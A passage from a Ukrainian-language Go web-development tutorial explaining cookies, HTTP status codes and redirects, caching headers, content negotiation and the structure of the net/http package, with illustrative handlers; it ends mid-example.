#### Приклад встановлення cookie у Go

```go
func loginHandler(w http.ResponseWriter, r *http.Request) {
	// Після успішної аутентифікації створюємо сесію
	sessionID := generateSecureToken() // Генерація криптостійкого токена

	// Встановлюємо cookie з усіма захисними атрибутами
	cookie := &http.Cookie{
		Name:     "session_id",
		Value:    sessionID,
		Path:     "/",
		MaxAge:   3600,                    // 1 година
		HttpOnly: true,                    // Захист від XSS
		Secure:   true,                    // Тільки HTTPS
		SameSite: http.SameSiteStrictMode, // Захист від CSRF
	}

	http.SetCookie(w, cookie)

	w.WriteHeader(http.StatusOK)
	fmt.Fprintf(w, "Вхід успішний. Сесія створена.")
}
```

#### Читання cookie у Go

```go
func profileHandler(w http.ResponseWriter, r *http.Request) {
	// Читаємо cookie з запиту
	cookie, err := r.Cookie("session_id")
	if err != nil {
		if err == http.ErrNoCookie {
			http.Error(w, "Відсутня сесія. Увійдіть у систему.", http.StatusUnauthorized)
			return
		}
		http.Error(w, "Помилка читання cookie", http.StatusInternalServerError)
		return
	}

	sessionID := cookie.Value

	// Перевірка валідності сесії (у реальності — запит до Redis/бази даних)
	if !isValidSession(sessionID) {
		http.Error(w, "Невалідна або прострочена сесія", http.StatusUnauthorized)
		return
	}

	fmt.Fprintf(w, "Вітаємо! Ваша сесія: %s", sessionID)
}
```

#### Видалення cookie

Щоб видалити cookie, встановіть його з терміном дії у минулому:

```go
func logoutHandler(w http.ResponseWriter, r *http.Request) {
	cookie := &http.Cookie{
		Name:     "session_id",
		Value:    "",
		Path:     "/",
		MaxAge:   -1, // Негативне значення видаляє cookie
		HttpOnly: true,
	}

	http.SetCookie(w, cookie)

	fmt.Fprintf(w, "Ви вийшли з системи. Cookie видалено.")
}
```

::warning
**Чому не зберігати чутливі дані в cookies:** Куки передаються з кожним запитом, збільшуючи розмір трафіку. Крім того, навіть з атрибутом `HttpOnly`, куки можуть бути викрадені через вразливості мережі (якщо відсутній `Secure`) або через атаки на рівні браузера. **Ніколи не зберігайте паролі, номери кредитних карток або інші критичні дані в cookies**. Використовуйте їх лише для ідентифікаторів сесій, а самі дані зберігайте на сервері (Redis, база даних).
::

---

## Статус-коди HTTP: мова спілкування між клієнтом та сервером

Кожна HTTP-відповідь починається зі **статус-коду** (_status code_) — тризначного числа, яке інформує клієнта про результат обробки запиту. Статус-коди згруповані в п'ять класів:

### 1xx: Інформаційні повідомлення
Використовуються рідко, сигналізують про проміжний стан обробки.
- **100 Continue:** сервер готовий прийняти тіло запиту (використовується, коли клієнт спочатку відправляє заголовки з `Expect: 100-continue`, щоб з'ясувати, чи варто відправляти велике тіло).
- **101 Switching Protocols:** сервер приймає запит на зміну протоколу (наприклад, апгрейд з HTTP на WebSocket).

### 2xx: Успішна обробка
- **200 OK:** запит успішно оброблено, тіло містить запитані дані (використовується з GET, PUT, PATCH).
- **201 Created:** ресурс успішно створено (POST). Рекомендовано повертати заголовок `Location` з URL нового ресурсу.
- **204 No Content:** запит успішно оброблено, але немає тіла відповіді (часто використовується з DELETE або PUT, коли не потрібно повертати дані).

### 3xx: Редирект
- **301 Moved Permanently:** ресурс переміщено на нову адресу назавжди. Клієнт повинен використовувати нову адресу з заголовка `Location`.
- **302 Found / 307 Temporary Redirect:** тимчасовий редирект. Клієнт повинен використовувати оригінальний URL для наступних запитів.
- **304 Not Modified:** ресурс не змінився з моменту попереднього запиту (використовується для кешування з заголовками `If-None-Match` / `ETag`).

#### Детальний розбір редиректів: коли використовувати 301, 302, 307, 308

HTTP-редиректи часто викликають плутанину, оскільки існує кілька статус-кодів зі схожою семантикою. Розглянемо детально різницю між ними та сценарії застосування.

**301 Moved Permanently (постійний редирект):**
- Ресурс **назавжди** переміщено на нову адресу.
- Браузери та пошукові системи (Google, Bing) **оновлюють закладки та індекси** на нову адресу.
- **Зміна методу:** Історично, багато браузерів змінювали POST-запит на GET при редиректі (нестандартна поведінка, але вона закріпилася).
- **Використання:** зміна доменного імені (`example.com` → `newexample.com`), перехід з HTTP на HTTPS назавжди, зміна структури URL.

**Приклад:**
```
HTTP/1.1 301 Moved Permanently
Location: https://newdomain.com/resource
```

**302 Found (тимчасовий редирект, застарілий):**
- Ресурс **тимчасово** доступний за іншою адресою.
- Пошукові системи **не змінюють індекси**.
- **Зміна методу:** Так само, як і 301, історично POST міг перетворюватися на GET.
- **Проблема:** Специфікація RFC 1945 не визначала чітко поведінку методу, що призвело до несумісності між реалізаціями.

**307 Temporary Redirect (тимчасовий редирект з гарантією збереження методу):**
- Аналогічно до 302, але **метод запиту та тіло мають бути збережені**.
- Якщо клієнт відправив POST, редирект має бути POST із тим самим тілом.
- **Використання:** тимчасове перенаправлення трафіку на резервний сервер, перенаправлення на сторінку обслуговування, A/B-тестування.

**308 Permanent Redirect (постійний редирект з гарантією збереження методу):**
- Аналогічно до 301, але **метод запиту та тіло мають бути збережені**.
- **Використання:** постійне перенаправлення API-ендпоінтів без зміни методу (наприклад, POST завжди залишається POST).

::plant-uml{alt="Порівняння HTTP редиректів"}

```plantuml
@startuml
skinparam style plain
skinparam backgroundColor #FFFFFF

package "Постійні редиректи" #DCFCE7 {
    card "301 Moved Permanently" as C301 #FEF3C7
    note right of C301
        • Назавжди
        • Може змінити POST → GET
        • Пошукові системи оновлять індекс
    end note

    card "308 Permanent Redirect" as C308 #FEF3C7
    note right of C308
        • Назавжди
        • Метод гарантовано зберігається
        • Для RESTful API
    end note
}

package "Тимчасові редиректи" #DBEAFE {
    card "302 Found" as C302 #FEE2E2
    note right of C302
        • Тимчасово
        • Може змінити POST → GET
        • Застарілий, не рекомендується
    end note

    card "307 Temporary Redirect" as C307 #E0E7FF
    note right of C307
        • Тимчасово
        • Метод гарантовано зберігається
        • Рекомендований
    end note
}

@enduml
```



::

**Приклад постійного редиректу з HTTP на HTTPS у Go:**

```go
func redirectToHTTPS(w http.ResponseWriter, r *http.Request) {
	// Формуємо нову HTTPS-адресу
	target := "https://" + r.Host + r.URL.Path
	if r.URL.RawQuery != "" {
		target += "?" + r.URL.RawQuery
	}

	// Постійний редирект (301)
	http.Redirect(w, r, target, http.StatusMovedPermanently)
}
```

**Приклад тимчасового редиректу з збереженням методу (307):**

```go
func maintenanceRedirect(w http.ResponseWriter, r *http.Request) {
	// Тимчасове перенаправлення на сторінку обслуговування
	http.Redirect(w, r, "/maintenance", http.StatusTemporaryRedirect) // 307
}
```

::caution
**Обережно з ланцюжками редиректів:** Кожен редирект додає додатковий HTTP-запит та RTT (затримку мережі). Якщо ланцюжок містить 5 редиректів, клієнт виконає 6 HTTP-запитів, що може значно уповільнити завантаження. Більшість браузерів обмежують максимальну кількість редиректів (зазвичай 20), після чого припиняють обробку і повертають помилку. **Уникайте непотрібних редиректів** і завжди тестуйте повний шлях користувача.
::


### 4xx: Помилка клієнта
- **400 Bad Request:** некоректний синтаксис запиту (наприклад, невалідний JSON).
- **401 Unauthorized:** відсутня або невалідна автентифікація. Клієнт повинен надати заголовок `Authorization`.
- **403 Forbidden:** автентифікація пройшла успішно, але клієнт не має прав доступу до ресурсу.
- **404 Not Found:** ресурс не знайдено на сервері.
- **405 Method Not Allowed:** HTTP-метод не підтримується для цього ресурсу (наприклад, POST на ендпоінт, який приймає лише GET).
- **409 Conflict:** конфлікт стану (наприклад, спроба створити користувача з email, який вже існує).
- **422 Unprocessable Entity:** синтаксично коректний запит, але семантично невалідний (наприклад, валідація полів не пройшла).
- **429 Too Many Requests:** клієнт перевищив ліміт запитів (Rate Limiting).

### 5xx: Помилка сервера
- **500 Internal Server Error:** загальна помилка сервера (наприклад, необроблене виключення в коді).
- **502 Bad Gateway:** проксі-сервер отримав невалідну відповідь від вищестоящого сервера.
- **503 Service Unavailable:** сервер тимчасово недоступний (наприклад, перевантаження або технічне обслуговування).
- **504 Gateway Timeout:** проксі-сервер не отримав відповідь від вищестоящого сервера вчасно.

::tip
**Правило вибору статус-коду:** завжди обирайте **найточніший** статус-код, який відповідає ситуації. Якщо клієнт надіслав невалідний JSON, поверніть **400 Bad Request**. Якщо JSON валідний, але поле `email` не проходить валідацію формату, поверніть **422 Unprocessable Entity**. Якщо користувач намагається видалити чужий ресурс, поверніть **403 Forbidden**. Точні статус-коди дозволяють клієнту (Desktop, Mobile, Web) коректно реагувати на помилки.
::

---

## HTTP Caching: оптимізація швидкодії через кешування

Одна з найпотужніших можливостей HTTP — вбудована підтримка **кешування** (_caching_). Правильно налаштоване кешування може радикально зменшити навантаження на сервер, знизити витрати на трафік та прискорити завантаження сторінок для користувачів.

### Як працює HTTP-кешування

Коли браузер (або проксі-сервер, CDN) отримує відповідь від сервера, він може **зберегти копію** ресурсу локально. При наступному запиті того самого ресурсу кеш перевіряє, чи він ще валідний. Якщо так, ресурс завантажується з локального кешу без звернення до сервера (або з мінімальним запитом для перевірки).

::plant-uml{alt="HTTP Caching: перший та повторний запит"}



::

### Заголовок Cache-Control: керування поведінкою кешу

Заголовок `Cache-Control` — це основний механізм керування кешуванням у HTTP/1.1. Він містить директиви, які вказують, як кеш має обробляти відповідь.

#### Найпоширеніші директиви:

| Директива | Призначення | Приклад |
|---|---|---|
| `max-age=<seconds>` | Ресурс валідний протягом N секунд | `Cache-Control: max-age=3600` (1 година) |
| `no-cache` | Кеш може зберігати, але має валідувати перед використанням | `Cache-Control: no-cache` |
| `no-store` | Заборона кешування (чутливі дані) | `Cache-Control: no-store` |
| `public` | Ресурс може кешуватися будь-яким кешем (CDN, проксі) | `Cache-Control: public, max-age=31536000` |
| `private` | Ресурс може кешуватися лише браузером (не CDN) | `Cache-Control: private` |
| `must-revalidate` | Після закінчення терміну обов'язково перевірити на сервері | `Cache-Control: max-age=3600, must-revalidate` |

**Приклад для статичних ресурсів (зображення, CSS, JS з хешем у назві):**

```
HTTP/1.1 200 OK
Cache-Control: public, max-age=31536000, immutable
Content-Type: image/png
```

Директива `immutable` (розширення) вказує, що ресурс **ніколи не зміниться**, тому браузер може кешувати його назавжди без жодних перевірок.

**Приклад для приватних даних користувача:**

```
HTTP/1.1 200 OK
Cache-Control: private, no-store
Content-Type: application/json
```

Це гарантує, що відповідь не буде збережена ні в проксі, ні на диску браузера.

### ETag та умовні запити: валідація без повторного завантаження

**ETag** (_Entity Tag_) — це унікальний ідентифікатор версії ресурсу, згенерований сервером (зазвичай хеш вмісту файлу або мітка часу останньої зміни). Клієнт зберігає ETag і при наступному запиті відправляє його через заголовок `If-None-Match`.

**Приклад першого запиту:**

```
GET /api/v1/user/profile HTTP/1.1

HTTP/1.1 200 OK
ETag: "33a64df551425fcc55e4d42a148795d9f25f89d4"
Cache-Control: max-age=60
Content-Type: application/json

{"id": 42, "name": "Олена"}
```

**Повторний запит через 2 хвилини (кеш застарів):**

```
GET /api/v1/user/profile HTTP/1.1
If-None-Match: "33a64df551425fcc55e4d42a148795d9f25f89d4"
```

Якщо ресурс **не змінився**, сервер повертає:

```
HTTP/1.1 304 Not Modified
ETag: "33a64df551425fcc55e4d42a148795d9f25f89d4"
```

**Немає тіла відповіді!** Браузер використовує кешовану версію. Це економить трафік і прискорює завантаження.

Якщо ресурс **змінився**, сервер повертає новий ETag та нові дані:

```
HTTP/1.1 200 OK
ETag: "9d4f89a148795d9f2533a64df551425fcc55e4d42"
Content-Type: application/json

{"id": 42, "name": "Олена Петренко"}
```

#### Реалізація ETag у Go

```go
func userProfileHandler(w http.ResponseWriter, r *http.Request) {
	// Отримуємо дані користувача
	user := getUserFromDB(42) // {"id": 42, "name": "Олена"}
	
	// Генеруємо ETag на основі хешу даних
	data, _ := json.Marshal(user)
	etag := fmt.Sprintf("\"%x\"", sha256.Sum256(data))

	// Перевіряємо, чи клієнт надіслав If-None-Match
	if r.Header.Get("If-None-Match") == etag {
		// Ресурс не змінився
		w.WriteHeader(http.StatusNotModified)
		return
	}

	// Ресурс змінився або це перший запит
	w.Header().Set("ETag", etag)
	w.Header().Set("Cache-Control", "max-age=60")
	w.Header().Set("Content-Type", "application/json")
	json.NewEncoder(w).Encode(user)
}
```

### Last-Modified та If-Modified-Since

Альтернативний механізм валідації — **мітка часу останньої зміни**.

**Перший запит:**

```
GET /document.pdf HTTP/1.1

HTTP/1.1 200 OK
Last-Modified: Mon, 27 Aug 2026 14:30:00 GMT
Cache-Control: max-age=3600
```

**Повторний запит:**

```
GET /document.pdf HTTP/1.1
If-Modified-Since: Mon, 27 Aug 2026 14:30:00 GMT
```

Якщо файл не змінювався, сервер повертає `304 Not Modified`.

::tip
**ETag vs Last-Modified:** ETag точніший, оскільки базується на вмісті, а не на часі. Файл може бути перезаписаний тим самим вмістом (мітка часу зміниться, але ETag залишиться незмінним). Рекомендується використовувати **обидва механізми одночасно** для максимальної сумісності з різними клієнтами.
::

---

## Content Negotiation: узгодження формату відповіді

**Content Negotiation** (_узгодження вмісту_) — це механізм HTTP, який дозволяє серверу та клієнту домовитися про найкращий формат відповіді на основі можливостей клієнта. Один і той самий ресурс може бути представлений у різних форматах: JSON, XML, HTML, CSV, Protobuf тощо.

### Заголовок Accept: що клієнт може обробити

Клієнт вказує перелік типів вмісту, які він підтримує, через заголовок `Accept`:

```
GET /api/v1/users HTTP/1.1
Accept: application/json, application/xml;q=0.9, text/html;q=0.8
```

**Розбір:**
- `application/json` — найвищий пріоритет (за замовчуванням `q=1.0`).
- `application/xml;q=0.9` — пріоритет 0.9.
- `text/html;q=0.8` — найнижчий пріоритет 0.8.

Сервер обирає найкращий формат і повертає:

```
HTTP/1.1 200 OK
Content-Type: application/json

[{"id": 1, "name": "Олена"}, {"id": 2, "name": "Дмитро"}]
```

Якщо клієнт надіслав `Accept: application/xml`, сервер поверне:

```
HTTP/1.1 200 OK
Content-Type: application/xml

<users>
  <user><id>1</id><name>Олена</name></user>
  <user><id>2</id><name>Дмитро</name></user>
</users>
```

### Реалізація Content Negotiation у Go

```go
func usersHandler(w http.ResponseWriter, r *http.Request) {
	users := []User{
		{ID: 1, Name: "Олена"},
		{ID: 2, Name: "Дмитро"},
	}

	// Читаємо заголовок Accept
	acceptHeader := r.Header.Get("Accept")

	switch {
	case strings.Contains(acceptHeader, "application/xml"):
		w.Header().Set("Content-Type", "application/xml")
		xml.NewEncoder(w).Encode(users)

	case strings.Contains(acceptHeader, "text/csv"):
		w.Header().Set("Content-Type", "text/csv")
		fmt.Fprintf(w, "id,name\n")
		for _, u := range users {
			fmt.Fprintf(w, "%d,%s\n", u.ID, u.Name)
		}

	default:
		// JSON за замовчуванням
		w.Header().Set("Content-Type", "application/json")
		json.NewEncoder(w).Encode(users)
	}
}
```

### Accept-Encoding: стиснення відповіді

Заголовок `Accept-Encoding` вказує алгоритми стиснення, які підтримує клієнт:

```
GET /api/v1/data HTTP/1.1
Accept-Encoding: gzip, deflate, br
```

Сервер стискає відповідь і повертає:

```
HTTP/1.1 200 OK
Content-Encoding: gzip
Content-Type: application/json

[binary gzip data]
```

У Go стиснення можна реалізувати через middleware або вбудовану бібліотеку `compress/gzip`:

```go
func gzipMiddleware(next http.Handler) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		if !strings.Contains(r.Header.Get("Accept-Encoding"), "gzip") {
			next.ServeHTTP(w, r)
			return
		}

		w.Header().Set("Content-Encoding", "gzip")
		gz := gzip.NewWriter(w)
		defer gz.Close()

		gzipWriter := gzipResponseWriter{Writer: gz, ResponseWriter: w}
		next.ServeHTTP(gzipWriter, r)
	})
}

type gzipResponseWriter struct {
	io.Writer
	http.ResponseWriter
}

func (w gzipResponseWriter) Write(b []byte) (int, error) {
	return w.Writer.Write(b)
}
```

### Accept-Language: мультимовність

Заголовок `Accept-Language` вказує бажану мову інтерфейсу:

```
GET / HTTP/1.1
Accept-Language: uk-UA, en-US;q=0.9, ru;q=0.8
```

Сервер повертає контент українською мовою, якщо підтримує.

::note
**Автоматичне визначення мови:** Більшість вебфреймворків (включно з Gin у наступних лекціях) мають вбудовану підтримку Content Negotiation. Ви можете зареєструвати різні рендери (JSON, XML, HTML, Protobuf) і фреймворк автоматично обере найкращий на основі заголовка `Accept`.
::

---

## Стандартний пакет `net/http`: архітектура та інтерфейси

Тепер, коли ми розуміємо структуру протоколу HTTP, перейдемо до вивчення стандартного пакета `net/http` мови Go. Цей пакет є одним із найелегантніших та найпотужніших у всій екосистемі Go: він приховує всю складність парсингу HTTP-запитів, керування з'єднаннями, підтримки HTTP/1.1 та HTTP/2, при цьому надаючи надзвичайно простий інтерфейс для розробника.

### Центральний інтерфейс `http.Handler`

Серцем архітектури `net/http` є інтерфейс `http.Handler`, який складається з єдиного методу:

```go
type Handler interface {
    ServeHTTP(w ResponseWriter, r *Request)
}
```

Будь-який тип у Go, який реалізує метод `ServeHTTP` із такою сигнатурою, автоматично стає HTTP-обробником. Це дозволяє створювати величезну кількість композицій та патернів (middleware, роутери, групування обробників).

**Параметри методу:**
- **`w ResponseWriter`** — інтерфейс для формування HTTP-відповіді. Через нього ви встановлюєте заголовки (`w.Header().Set(...)`), записуєте статус-код (`w.WriteHeader(...)`) та тіло відповіді (`w.Write(...)`).
- **`r *Request`** — структура, яка містить всю інформацію про вхідний HTTP-запит: метод (`r.Method`), URL (`r.URL`), заголовки (`r.Header`), тіло (`r.Body`), контекст (`r.Context()`).

### Найпростіший HTTP-сервер на `net/http`

Розглянемо мінімальний робочий приклад:

```go
package main

import (
	"fmt"
	"net/http"
)

func main() {
	// Реєструємо обробник для кореневого шляху
	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		fmt.Fprintf(w, "Вітаємо! Ви відкрили шлях: %s\n", r.URL.Path)
	})

	// Запускаємо сервер на порту 8080
	fmt.Println("🚀 Сервер запущено на http://localhost:8080")
	http.ListenAndServe(":8080", nil)
}
```

Цей сервер обробляє **всі** HTTP-запити (будь-який шлях, будь-який метод) і повертає просте текстове повідомлення. Функція `http.HandleFunc` — це зручний хелпер, який автоматично перетворює функцію з сигнатурою `func(w ResponseWriter, r *Request)` на тип `http.Handler`.

### Як працює `http.ListenAndServe`

Під капотом функція `http.ListenAndServe(addr, handler)` виконує наступні кроки:

1. Створює TCP-слухача за допомогою `net.Listen("tcp", addr)`.
2. Входить у нескінченний цикл прийняття з'єднань (`listener.Accept()`).
3. Для кожного нового з'єднання запускає окрему **горутину**, яка:
   - Читає HTTP-запит із сокета.
   - Парсить стартовий рядок, заголовки та тіло.
   - Викликає зареєстрований обробник `handler.ServeHTTP(w, r)`.
   - Формує HTTP-відповідь та записує її у сокет.
   - Якщо з'єднання persistent (`Connection: keep-alive`), чекає наступного запиту в тому самому з'єднанні.

Це означає, що Go-сервер автоматично є **багатопотоковим** (точніше, багатогорутинним) без жодного додаткового коду з вашого боку. Якщо до сервера одночасно підключаться 1000 клієнтів, Go-рантайм створить 1000 горутин, кожна з яких обробляє свого клієнта незалежно.

::note
**Модель «одна горутина на запит»:** Архітектура `net/http` використовує модель, де кожен HTTP-запит обробляється в окремій горутині. Завдяки легковаговості горутин (кілька кілобайтів пам'яті на стек) та ефективному планувальнику, один Go-сервер може одночасно обслуговувати десятки тисяч запитів на звичайному апаратному забезпеченні, не вдаючись до асинхронного програмування або callback-ів, як у Node.js.
::

### Стандартний роутер `http.ServeMux`

Якщо ви передаєте `nil` у другий аргумент `http.ListenAndServe`, використовується глобальний роутер `http.DefaultServeMux`, який ви налаштовуєте через функції `http.Handle` та `http.HandleFunc`. Але ви також можете створити власний екземпляр роутера:

```go
package main

import (
	"encoding/json"
	"fmt"
	"net/http"
)

func main() {
	// Створюємо новий роутер
	mux := http.NewServeMux()

	// Реєструємо обробники для різних шляхів
	mux.HandleFunc("/", homeHandler)
	mux.HandleFunc("/health", healthHandler)
	mux.HandleFunc("/api/users", usersHandler)

	fmt.Println("🚀 Сервер запущено на http://localhost:8080")
	http.ListenAndServe(":8080", mux)
}

func homeHandler(w http.ResponseWriter, r *http.Request) {
	w.Header().Set("Content-Type", "text/html; charset=utf-8")
	fmt.Fprintf(w, "<h1>Вітаємо на головній сторінці</h1>")
}

func healthHandler(w http.ResponseWriter, r *http.Request) {
	w.Header().Set("Content-Type", "application/json")
	json.NewEncoder(w).Encode(map[string]string{
		"status": "healthy",
		"version": "1.0.0",
	})
}

func usersHandler(w http.ResponseWriter, r *http.Request) {
	// Перевіряємо метод запиту
	if r.Method != http.MethodGet {
		http.Error(w, "Method Not Allowed", http.StatusMethodNotAllowed)
		return
	}

	users := []map[string]any{
		{"id": 1, "name": "Олена"},
		{"id": 2, "name": "Дмитро"},
	}

	w.Header().Set("Content-Type", "application/json")
	json.NewEncoder(w).Encode(users)
}
```

::caution
**Обмеження стандартного `http.ServeMux`:** Стандартний роутер Go не підтримує параметри шляху (наприклад, `/users/:id`), регулярні вирази або групування маршрутів. Саме тому в реальних застосунках використовуються сторонні роутери як-от **Chi**, **Gorilla Mux** або фреймворки на кшталт **Gin**. У наступній лекції ми детально розглянемо маршрутизатор Chi.
::

---

## Глибокий розбір `net/http`: всі рухомі частинки

Тепер розглянемо детально всі ключові типи, інтерфейси та функції пакета `net/http` у стилі технічної документації.

### Структура `http.Request`: повна анатомія запиту

Структура `*http.Request` містить всю інформацію про вхідний HTTP-запит. Розглянемо кожне поле детально.

```go
type Request struct {
    // HTTP-метод (GET, POST, PUT, PATCH, DELETE, HEAD, OPTIONS)
    Method string

    // URL запиту (розібраний URI)
    URL *url.URL

    // Версія протоколу: "HTTP/1.1", "HTTP/2.0"
    Proto      string // "HTTP/1.1"
    ProtoMajor int    // 1
    ProtoMinor int    // 1

    // Заголовки запиту
    Header Header

    // Тіло запиту (потік, який потрібно закрити)
    Body io.ReadCloser

    // Розмір тіла запиту (-1 якщо невідомо)
    ContentLength int64

    // Список Transfer-Encoding (наприклад, ["chunked"])
    TransferEncoding []string

    // Закривати з'єднання після відповіді
    Close bool

    // Хост із заголовка Host або URL
    Host string

    // Розібрані дані форми (після виклику ParseForm)
    Form url.Values

    // Розібрані дані multipart форми (після ParseMultipartForm)
    PostForm url.Values
    MultipartForm *multipart.Form

    // Інформація про TLS з'єднання (nil для HTTP)
    TLS *tls.ConnectionState

    // Адреса віддаленого клієнта "192.168.1.100:54321"
    RemoteAddr string

    // Шлях до локального файлу (при ServeFile)
    RequestURI string

    // Контекст запиту (для таймаутів та скасування)
    ctx context.Context
}
```

#### Поле `URL *url.URL`: структура URI

```go
type URL struct {
    Scheme   string    // "http", "https"
    Opaque   string    // закодована непрозора частина
    User     *Userinfo // username:password (рідко використовується)
    Host     string    // "example.com:8080"
    Path     string    // "/api/v1/users"
    RawPath  string    // закодована версія Path
    RawQuery string    // "page=2&limit=20"
    Fragment string    // частина після # (не передається серверу)
}
```

**Приклад роботи з URL:**

```go
func analyzeURL(w http.ResponseWriter, r *http.Request) {
    u := r.URL

    fmt.Fprintf(w, "Шлях: %s\n", u.Path)              // /api/v1/users
    fmt.Fprintf(w, "Raw Query: %s\n", u.RawQuery)     // page=2&limit=20
    
    // Розібрані query-параметри
    query := u.Query()
    page := query.Get("page")      // "2"
    limit := query.Get("limit")    // "20"
    
    // Перевірка наявності параметра
    if _, exists := query["filter"]; exists {
        fmt.Fprintf(w, "Параметр filter присутній\n")
    }

    // Отримання всіх значень параметра (якщо їх кілька)
    // ?tag=go&tag=http&tag=tutorial
    tags := query["tag"] // []string{"go", "http", "tutorial"}
}
```

#### Поле `Header http.Header`: карта заголовків

`http.Header` — це карта `map[string][]string`, де ключ — ім'я заголовка (канонізоване до Title-Case), значення — масив рядків (оскільки один заголовок може мати кілька значень).

```go
type Header map[string][]string
```

**Методи інтерфейсу `Header`:**

```go
// Отримання першого значення заголовка (найчастіше використовується)
func (h Header) Get(key string) string

// Встановлення заголовка (замінює існуючі значення)
func (h Header) Set(key, value string)

// Додавання значення до заголовка (не замінює існуючі)
func (h Header) Add(key, value string)

// Видалення заголовка
func (h Header) Del(key string)

// Отримання всіх значень заголовка
func (h Header) Values(key string) []string

// Канонізація імені заголовка (Content-Type, Accept-Encoding)
func CanonicalHeaderKey(s string) string
```

**Приклад роботи з заголовками:**

```go
func headersHandler(w http.ResponseWriter, r *http.Request) {
    // Читання заголовків
    userAgent := r.Header.Get("User-Agent")
    acceptLang := r.Header.Get("Accept-Language")
    
    // Отримання всіх значень (якщо заголовок повторюється)
    acceptTypes := r.Header.Values("Accept")
    // ["application/json", "text/html", "*/*"]

    // Перевірка наявності заголовка
    if auth := r.Header.Get("Authorization"); auth == "" {
        http.Error(w, "Missing Authorization header", http.StatusUnauthorized)
        return
    }

    // Встановлення заголовків відповіді
    w.Header().Set("Content-Type", "application/json")
    w.Header().Set("X-Request-ID", generateRequestID())
    
    // Додавання кількох значень одного заголовка
    w.Header().Add("Set-Cookie", "session=abc; HttpOnly")
    w.Header().Add("Set-Cookie", "theme=dark; Path=/")

    // Видалення заголовка
    w.Header().Del("X-Debug-Info")
}
```

::note
**Канонізація заголовків:** Go автоматично перетворює імена заголовків до канонічної форми Title-Case: `content-type` → `Content-Type`, `accept-encoding` → `Accept-Encoding`. Це означає, що `r.Header.Get("content-type")` та `r.Header.Get("Content-Type")` повернуть один і той самий результат.
::

#### Поле `Body io.ReadCloser`: потокове читання тіла

Тіло запиту представлено інтерфейсом `io.ReadCloser`, який об'єднує `io.Reader` та `io.Closer`:

```go
type ReadCloser interface {
    Read(p []byte) (n int, err error)
    Close() error
}
```

**Критично важливо:** Ви **завжди повинні закривати** `r.Body` після читання, навіть якщо виникла помилка. Використовуйте `defer r.Body.Close()`.

**Способи читання тіла:**

```go
// 1. Читання всього тіла в пам'ять (для невеликих даних)
func readAllBody(w http.ResponseWriter, r *http.Request) {
    defer r.Body.Close()

    body, err := io.ReadAll(r.Body)
    if err != nil {
        http.Error(w, "Failed to read body", http.StatusBadRequest)
        return
    }

    fmt.Fprintf(w, "Received %d bytes: %s", len(body), string(body))
}

// 2. Потокова обробка (для великих даних)
func streamBody(w http.ResponseWriter, r *http.Request) {
    defer r.Body.Close()

    // Обмеження розміру читання (захист від DoS)
    limitedBody := io.LimitReader(r.Body, 10*1024*1024) // 10 MB

    // Потокове копіювання у файл
    dst, _ := os.Create("uploaded.bin")
    defer dst.Close()

    io.Copy(dst, limitedBody)
}

// 3. Декодування JSON (найчастіше для API)
func decodeJSON(w http.ResponseWriter, r *http.Request) {
    defer r.Body.Close()

    var payload struct {
        Name  string `json:"name"`
        Email string `json:"email"`
    }

    decoder := json.NewDecoder(r.Body)
    decoder.DisallowUnknownFields() // Строга валідація
    
    if err := decoder.Decode(&payload); err != nil {
        http.Error(w, fmt.Sprintf("Invalid JSON: %v", err), http.StatusBadRequest)
        return
    }

    // Перевірка, чи немає зайвих даних після JSON
    if decoder.More() {
        http.Error(w, "Extraneous data after JSON", http.StatusBadRequest)
        return
    }

    fmt.Fprintf(w, "Name: %s, Email: %s", payload.Name, payload.Email)
}
```

::warning
**Не читайте Body двічі:** Після того, як ви прочитали `r.Body`, потік вичерпується. Повторна спроба читання поверне `EOF`. Якщо вам потрібно зберегти тіло для подальшої обробки, збережіть його у `[]byte` або створіть новий `io.Reader` через `bytes.NewReader`.
::

#### Методи структури `*http.Request`

```go
// Отримання контексту запиту
func (r *Request) Context() context.Context

// Встановлення нового контексту (створює копію запиту!)
func (r *Request) WithContext(ctx context.Context) *Request

// Отримання cookie за іменем
func (r *Request) Cookie(name string) (*Cookie, error)

// Отримання всіх cookies
func (r *Request) Cookies() []*Cookie

// Розбір форми (заповнює r.Form та r.PostForm)
func (r *Request) ParseForm() error

// Розбір multipart форми (для завантаження файлів)
func (r *Request) ParseMultipartForm(maxMemory int64) error

// Отримання значення поля форми (викликає ParseForm автоматично)
func (r *Request) FormValue(key string) string

// Отримання файлу з multipart форми
func (r *Request) FormFile(key string) (multipart.File, *multipart.FileHeader, error)

// Перевірка базової HTTP-автентифікації
func (r *Request) BasicAuth() (username, password string, ok bool)

// Створення дочірнього запиту (для проксі)
func (r *Request) Clone(ctx context.Context) *Request
```

**Приклад роботи з формами:**

```go
func formHandler(w http.ResponseWriter, r *http.Request) {
    // Автоматичний парсинг форми
    username := r.FormValue("username") // Викликає ParseForm автоматично
    password := r.FormValue("password")

    // Або ручний парсинг із обробкою помилок
    if err := r.ParseForm(); err != nil {
        http.Error(w, "Failed to parse form", http.StatusBadRequest)
        return
    }

    // Доступ до розібраних даних
    email := r.Form.Get("email")
    
    // Отримання множинних значень (checkbox)
    interests := r.Form["interests"] // []string{"coding", "music", "sports"}

    fmt.Fprintf(w, "User: %s, Interests: %v", username, interests)
}
```

**Приклад Basic Authentication:**

```go
func protectedHandler(w http.ResponseWriter, r *http.Request) {
    username, password, ok := r.BasicAuth()
    if !ok {
        // Запит автентифікації
        w.Header().Set("WWW-Authenticate", `Basic realm="Restricted Area"`)
        http.Error(w, "Unauthorized", http.StatusUnauthorized)
        return
    }

    // Перевірка облікових даних
    if username != "admin" || password != "secret" {
        http.Error(w, "Forbidden", http.StatusForbidden)
        return
    }

    fmt.Fprintf(w, "Вітаємо, %s!", username)
}
```

### Інтерфейс `http.ResponseWriter`: формування відповіді

`ResponseWriter` — це інтерфейс для запису HTTP-відповіді. Він приховує складність буферизації, стиснення та керування з'єднанням.

```go
type ResponseWriter interface {
    // Header повертає карту заголовків відповіді
    // Важливо: заголовки треба встановити ДО виклику Write або WriteHeader
    Header() Header

    // Write записує дані у тіло відповіді
    // Першим викликом Write автоматично відправляє статус-код 200 OK
    Write([]byte) (int, error)

    // WriteHeader встановлює HTTP статус-код
    // Має викликатися ДО першого Write
    // Повторні виклики ігноруються
    WriteHeader(statusCode int)
}
```

#### Порядок операцій (критично важливо!)

```go
func correctOrder(w http.ResponseWriter, r *http.Request) {
    // 1. Спочатку встановлюємо заголовки
    w.Header().Set("Content-Type", "application/json")
    w.Header().Set("X-Request-ID", "abc-123")
    
